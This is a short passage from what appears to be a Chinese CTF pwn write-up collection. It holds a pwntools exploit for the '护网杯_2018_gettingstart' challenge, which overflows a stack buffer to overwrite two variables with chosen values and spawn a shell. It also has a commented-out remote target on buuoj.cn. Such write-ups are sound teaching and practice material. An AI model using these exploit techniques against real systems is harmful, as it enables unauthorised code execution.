 ```python

p.interactive()
```

https://www.cnblogs.com/Rookle/p/12884522.html


## 护网杯_2018_gettingstart
栈溢出将v7赋值为0x7FFFFFFFFFFFFFFF和v8赋值为0.1就可以getshell
```python
from pwn import *

p=process("./2018_gettingStart")
#p=remote("node3.buuoj.cn",25072)

payload = "a"*0x18 + p64(0x7FFFFFFFFFFFFFFF) + p64(0x3FB999999999999A)
p.sendline(payload)

p.interactive()
```





